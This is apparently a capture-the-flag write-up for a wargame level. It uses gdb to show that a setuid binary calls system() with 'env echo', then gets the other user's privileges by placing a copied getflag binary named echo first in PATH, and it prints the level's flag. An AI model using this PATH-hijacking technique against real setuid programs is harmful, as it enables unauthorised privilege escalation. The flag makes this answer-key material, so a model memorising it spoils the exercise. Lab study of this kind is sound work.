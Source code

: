 # Step1
executable `level03` is presents in the home directory

```bash
ls -l
```

### Result

`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03`

- The owner is `flag03`
- The `s` permission is set, so it will run with the owner's permission
- Runnig it display `Exploit me`

# Step 2

with `gdb` we will analyze the binary

```bash
gdb level03
(gdb) break main
(gdb) run
(gdb) disas
(gdb) next
```

`Exploit me` appears on the succession of a `call` instruction and a `movl` instruction:

`0x080484f7 <+83>:	movl   $0x80485e0,(%esp)`

`0x080484fe <+90>:	call   0x80483b0 <system@plt>`



We can see that the `system` function is called with the address `0x80485e0` as argument. So we can print the content of this address to see what is inside.


```bash
(bsd) print (const char *) 0x80485e0
```

Or

```bash
(bsd) x/s 0x80485e0
```

### Result
`0x80485e0:	 "/usr/bin/env echo Exploit me"`

# Step 3

Because the binary is running with the owner's permission, and call the `echo` built-in command.

We can create a fake `echo` command that will execute the `getflag` command by copy the `getflag` binary under the name `echo`(eslewhere and first in the $PATH).

```bash
which getflag
cp /bin/getflag /tmp/echo
export PATH=/tmp:$PATH
./level03
```

### Result
Runnig ./level03 runs fake `echo` as `getflag` with `flag03` user and gives us the flag `qi0maab88jeaj46qoumi7maus`

No password needed for `flag03`
